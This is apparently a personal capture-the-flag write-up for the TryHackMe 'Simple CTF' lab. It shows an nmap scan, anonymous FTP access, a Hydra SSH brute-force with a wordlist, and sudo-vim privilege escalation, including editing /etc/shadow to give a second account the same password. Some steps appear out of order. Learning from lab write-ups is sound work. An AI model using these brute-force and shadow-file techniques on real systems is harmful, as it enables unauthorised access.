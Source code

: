 > Thu 31 Jul 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s7.png]]

# Simple CTF [Link](https://tryhackme.com/room/easyctf)

## 1. Reconnaissance
#### TCP Scan

```bash
ip=10.10.126.78
sudo nmap -sC -p- -T4 -oN nmap.txt $ip
```  

Based on the `TCP scan results`, the following ports are `available` for **further assessment**:

| Port   | Software | Version                                 | Status |
| ------ | -------- | --------------------------------------- | ------ |
| 21/tcp | ftp      | vsFTPd 3.0.3 - secure, fast, stable     | open   |
| 80/tcp | http     | http-title: Apache2 Ubuntu Default Page | open   |
| 2222   | ssh      | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8         | open   |
Based on the scan results, we can observe that `port 80` is open and running an **Apache HTTP server** and there is a ftp service running at port 21

## 2. Enumeration

### 1. FTP Enumeration

Port: `21`

The FTP service is **vulnerable to anonymous login**, which allows us to access it without credentials.
![Alt text](Write-ups/TryHackMe/Linux/img/s2.png)

After logging in, we navigated to the `/pub` directory and found a file named: `ForMitch.txt`
![Alt](Write-ups/TryHackMe/Linux/img/s3.png)

File found: `ForMitch.txt` 

File content:

```TEXT
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

🔍 Analysis:
- The message refers to a **user named `mitch`**.
- It implies that:
	- The **system username is `mitch`**.
	- The **password is weak** and can be **brute-forced easily**.
	- The **same password** might be used across different services (e.g., SSH).

### 2. Web Enumeration

After logging via SSH 

```bash
$ ls /var/www/html
index.html  robots.txt  simple
```

Upon further inspection, I discovered a subdirectory accessible via the browser:
```browser
http://10.10.219.207/simple
```
This page is running **CMS Made Simple version 2.2.8**.

**Vulnerability Identified:**
- **CVE:** CVE-2019-9053
- **Description:** CMS Made Simple ≤ 2.2.9 is vulnerable to **SQL Injection** via the `mact` parameter in the `moduleinterface` endpoint.
## 3. Exploitation
### Exploitation – Cracking Password with Hydra

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.126.78:2222
[2222][ssh] host: 10.10.126.78   login: mitch   password: secret
```

login: mitch
password: secret
Next step login with *ssh*:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh mitch@10.10.126.78 -p 2222
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
$
```


## 4. Privilege Escalation
To check what commands the user `mitch` can run as `root`, I ran:

```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Full Root Access via `sunbath`
```bash
su sunbath
```

I checked the user's sudo permissions:

sunbath@Machine:~$ sudo -l
[sudo] password for sunbath:
User sunbath may run the following commands on Machine:
    (ALL : ALL) ALL

```bash
sunbath@Machine:~$ sudo cat /root/root.txt
W3ll d0n3. You made it!
sunbath@Machine:~$
```

## 5. Post-Exploitation

After logging in via SSH as `mitch`
```bash
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
$
```

After checking the port 80 is open i check if my user is how is own this apache 
```bash
$ ls /var/www/html
index.html  robots.txt	simple
$
```

After gaining root access using `sudo vim`, I was able to **read and write** the `/etc/shadow` file:
```bash
sudo vim /etc/shadow
```

I decided to move laterally and gain access to another user account: **`sunbath`**.
so next move is give sunbath the same value of mitch

![[Write-ups/TryHackMe/Linux/img/s5.png]]

now mitch and sunbath have the same password and i can navigate between the both easily 

```bash
ssh sunbath@10.10.126.78
```
